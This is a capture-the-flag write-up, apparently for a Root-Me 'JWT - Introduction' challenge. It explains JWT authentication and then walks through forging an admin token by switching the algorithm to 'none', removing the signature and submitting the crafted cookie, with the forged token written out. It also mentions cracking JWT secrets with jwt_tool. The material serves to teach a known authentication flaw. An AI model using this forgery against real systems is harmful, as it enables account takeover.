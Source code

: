 # JSON Web Token (JWT) - Introduction(none, no key)

JWT is often used for front-end and back-end separation and can be used with the Restful API and is often used to build identity authentication mechanisms.

When a user enters his/her credentials, a post request is sent after which the credentials are validated. If they are a correct match then the user is presented with response having a JWT token

JWT is often stored in localstorage by frontend code

Local storage is a new feature of HTML5 that allows a web developer to store any information he wants in user’s browser using JavaScript.

***

How to attack

**firstly, send the get request to the appropriate api endpoint, to get the jwt key(if exposed)**

**and then decode the key with jwt.io**

**crack the secret key with jwt\_tool**

**Modify the algorithm to none**

Signature algorithm ensures that JWT is not modified by malicious users during transmission

But the alg field in the header can be changed to none Some JWT libraries support the none algorithm, that is, no signature algorithm. **When the alg is none, the backend will not perform signature verification.**

After changing alg to none, **remove the signature data from the JWT (only header + ‘.’ + payload + ‘.’) and submit it to the server.**

https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Hacking%20JSON%20Web%20Token%20(JWT)%20-%20Rudra%20Pratap.pdf?\_gl=1_1ogwbhe_\_ga_NTM2MDg4NDI5LjE2NjExMzM0Njc._\_ga\_SRYSKX09J7\*MTY2MTkzMzkxNS4zMC4xLjE2NjE5MzM5MjQuMC4wLjA.

***

Solution

First, login as guest

Then, ctrl+shift+i to open developer's tool and then go to storage to see cookies (or use cookie editor browser extenstion)

watch the jwt

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.OnuZnYMdetcg7AWGV6WURn8CFSfas6AQej4V9M13nsk

now go to cyberchef, Base64 decode

{"typ":"JWT","alg":"HS256"}{"username":"guest"}..æg\`Ç^µÈ;.a.ée..À.Iö¬è....}3]ç² this gibberish part is signature data

then

base64 encode {"typ":"JWT","alg":"none"}

base 64 encode {"username":"admin"}

then add those with

a.b.

\=>

a: eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=

b: eyJ1c2VybmFtZSI6ImFkbWluIn0=

\=>

eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIn0=.

\=>

send the newly crafted cookies
